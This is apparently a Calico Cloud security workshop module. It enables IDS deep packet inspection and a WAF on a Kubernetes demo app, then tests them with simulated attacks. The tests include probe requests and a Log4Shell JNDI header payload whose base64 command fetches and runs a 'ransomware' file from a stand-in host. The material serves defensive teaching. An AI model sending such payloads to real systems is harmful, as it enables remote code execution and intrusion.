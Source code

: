 # Module 3 - Configuring IDS protection and Workload-Centric WAF

Security teams need to run DPI quickly in response to unusual network traffic in clusters so they can identify potential threats. Also, it is critical to run DPI on select workloads (not all) to efficiently use cluster resources and minimize the impact of false positives. Calico Cloud provides an easy way to perform DPI using Snort community rules. You can disable DPI at any time, selectively configure for namespaces and endpoints, and alerts are generated in the `Alerts` dashboard in Manager UI.

For this workshop, we will enable the IDS for the vote service and observe the alerts being created when trying to exploit some vulnerabilities.

1. First enable the `Intrusion Detection`

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: operator.tigera.io/v1
   kind: IntrusionDetection
   metadata:
     name: tigera-secure
   spec:
     componentResources:
     - componentName: DeepPacketInspection
       resourceRequirements:
         limits:
           cpu: "1"
           memory: 1Gi
         requests:
           cpu: 100m
           memory: 100Mi
   EOF
   ```

2. Next, create a `DeepPacketInspection` for the vote application in the vote namespace.

   ```yaml
   kubectl apply -f - <<-EOF
   apiVersion: projectcalico.org/v3
   kind: DeepPacketInspection
   metadata:
     name: dpi-ids-vote
     namespace: vote
   spec:
     selector: app == "vote"
   EOF
   ```

3. Test the IDS emulating an attack to the vote service:

   - Open a new Cloud Shell session and start a pod to simulate an attack on the vote service.

     ```bash
     kubectl exec attacker -it -- /bin/bash
     ```

   - From pod attacker's shell, execute the following commands.

     ```bash
     curl -m2 http://vote.vote/cmd.exe
     curl -m2 http://vote.vote/NessusTest
     ```

   - Observe the results in the Service Graph to see the generated alerts that will warn you about the exploitation attempt.

---

A web application firewall (WAF) safeguards web applications against a range of application layer attacks, including cross-site scripting (XSS), SQL injection, and cookie poisoning. Given that application attacks are the primary cause of breaches, protecting the HTTP traffic that serves as a gateway to valuable application data is crucial.

Calico Cloud WAF allows you to selectively run service traffic within your cluster and protect intra-cluster traffic from common HTTP-layer attacks. To increase protection, you can use Calico Cloud network policies to enforce security controls on selected pods on the host.

1. Before protecting the service with the WAF, try the following command from the attacker shell. This request will simulate a LOG4J attack.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

   Observe that the result was an `HTTP/1.1 200 OK` . The malicious request was not blocked.

2. Enable the WAF in the Calico Cloud UI.

   ![enable_waf](https://github.com/tigera-solutions/cc-aks-compliance-workshop/assets/104035488/a8c3eca4-b156-4bf4-bd72-a197c5c34402)

3. Verify that the service selected includes the frontends `vote` and `result` of our example application and click `Confirm Selection`.

   ![selected_service](https://github.com/tigera-solutions/cc-aks-compliance-workshop/assets/104035488/467002cf-d4a1-4ee5-9ccb-c789c032f2a4)

4. Go back to the attack pod, and repeat the request.

   ```bash
   curl -v -H \
     'X-Api-Version: ${jndi:ldap://jndi-exploit.attack:1389/Basic/Command/Base64/d2dldCBldmlsZG9lci54eXovcmFuc29td2FyZTtjaG1vZCAreCAvcmFuc29td2FyZTsuL3JhbnNvbXdhcmU=}' \
     'vote.vote'
   ```

   You will note that the result will be an `HTTP/1.1 403 Forbidden`. This response returns from the WAF.

---

[:arrow_right: Module 4 - Quarantine Infected Workloads and KSPM](/mod/module-4-quarantine-kspm.md)  <br>

[:arrow_left: Module 2 - Security Guardrails for Network-based Threats](/mod/module-2-security-guardrails.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
